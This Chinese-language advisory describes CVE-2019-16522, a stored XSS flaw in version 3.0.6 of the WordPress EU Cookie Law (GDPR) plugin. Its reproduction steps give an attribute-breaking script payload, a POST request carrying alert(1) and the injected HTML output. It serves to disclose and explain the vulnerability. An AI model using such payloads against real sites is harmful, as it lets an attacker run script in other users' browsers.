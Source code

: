 # CVE-2019-16522 WordPress Plugin - EU Cookie Law (GDPR) 储存型xss

### 一、漏洞简介

WordPress的3.0.6版eu-cookie-law插件（又称为EU Cookie法（GDPR））容易受到存储XSS的影响，原因是管理区域中几个配置选项的编码不正确以及显示的Cookie同意消息。这会影响“字体颜色”，“背景颜色”和“禁用Cookie”文本。具有高特权的攻击者可以攻击其他用户。

### 二、漏洞影响

wordpress <= 3.0.6，可能更高

### 三、复现过程


```bash
/wp-admin/options-general.php?page=peadig_eucookie
```

管理员可以在配置区域为插件设置多个选项。在插入HTML页面之前，大多数都可以正确转义。但是，可以利用三个设置值来插入任意JavaScript和HTML。那些是：

* 字体颜色（ Font Color）
* 背景颜色 （Background Color）
* “禁用Cookie”文本 （"Disable Cookie" Text）
* “ Fontcolor”的值将插入到显示Cookie同意消息的每个页面上。默认情况下，其他两个仅可在管理区域中利用。

以“字体颜色”为例

将字体颜色的值设置为


```bash
#FFFFFF"><script></script>
```

便可以突破HTML属性并插入script包含JavaScript 的标签

post包：


```bash
POST /wp-admin/options.php HTTP / 1.1 
[ ... ] 

[ ... ] peadig_eucookie％5 Bfontcolor％5 D = ％23FFFFFF％22％3E％3Cscript％3Ealert％281％29％3C / script％3E [...]
```

这时候我们看一下返回值。

在管理区域中，生成的HTML页面如下所示


```html
<input id="fontcolor" type="text" name="peadig_eucookie[fontcolor]" value="#FFFFFF">
<script></script>
" class="color-field" data-default-color="#ffffff"/>
```

在带有cookie消息的页面上，有效负载将被多次插入。生成的HTML如下所示


```html
<!-- Eu cookie Law 3.0.6 -->
<div class="pea_cook_wrapper pea_cook_bottomcenter" style="color:#FFFFFF">
    <script></script>
    ;background:rgb(0,0,0);background: rgba(0,0,0,0.85);">
```